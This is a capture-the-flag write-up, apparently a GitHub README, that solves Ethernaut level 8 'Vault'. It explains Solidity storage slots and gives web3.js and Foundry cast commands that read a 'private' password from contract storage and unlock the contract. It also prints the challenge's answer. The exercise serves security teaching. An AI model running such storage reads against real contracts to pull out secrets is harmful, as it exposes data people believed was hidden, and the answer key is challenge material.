


<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 8 - Vault</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 8 - Vault](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-08-vault)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
  - [Storage (Static types)](#storage-static-types)
  - [Reading the storage](#reading-the-storage)
- [Solution](#solution)
  - [In the browser console:](#in-the-browser-console)
  - [With Foundry using `cast`:](#with-foundry-using-cast)
- [Takeaway](#takeaway)
- [References](#references)

## Goals



## The hack

It requires an understanding of how storage works in solidity (usage of 32-byte sized slots) and the JSON RPC function `eth_getStorageAt`.

### Storage (Static types)

EVM stores data in 32-byte slots. The first state variable is stored at slot 0. If there are enough bytes left, the next variable is also stored at slot 0, otherwise at slot 1, and so on.

> NOTE: Dynamic types like arrays and strings are different and don't work the same way. But this is for another level...

In the Vault contract, `locked` is a boolean and uses 1 bytes. The slot 0 has 31 bytes of unused storage. `password` is a bytes32 and uses 32 bytes. Since it doesn't fit in the 31 bytes left in slot 0, it is stored at slot 1.

### Reading the storage

The `eth_getStorageAt` JSON RPC function can be used to read the contract's storage at a given slot.

For instance, to read the contract's storage at slot 1 using web3.js, you can use the following function:

```javascript
web3.eth.getStorageAt(contractAddress, 1, (err, result) => {
  console.log(result);
});
```

In Foundry, you can make use of `cast` to achieve the same result:

```bash
cast storage <contractAddress> 1 --rpc-url sepolia
```

## Solution

Since we know that the password is stored at slot 1, we can read the storage at that slot to find the password and then call the `unlock` function with the password to complete the level.

### In the browser console:

```javascript
// 1. Read the storage of the contract at slot[1] to find the password:
await web3.eth.getStorageAt(instance, 1);

// 2. Call the unlock function with the password to complete the level:
await contract.unlock("[result from step 2]");
```

### With Foundry using `cast`:

```bash
cast storage <contractAddress> 1 --rpc-url sepolia
```

Then pass the result to the `unlock` function:

```bash
cast send 0x5E0bc315bDe04a2E24E00335976dC823E6214213 "unlock(bytes32)" "0x412076657279207374726f6e67207365637265742070617373776f7264203a29" --private-key $PRIVATE_KEY --rpc-url sepolia
```

## Takeaway

- The `private` keyword means that the data can only be accessed by the contract itself, not that it is hidden from the world.
- Nothing is private on the blockchain. Everything is public and can be read by anyone.

## References

eth_getStorageAt: https://ethereum.org/en/developers/docs/apis/json-rpc/#eth_getstorageat

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
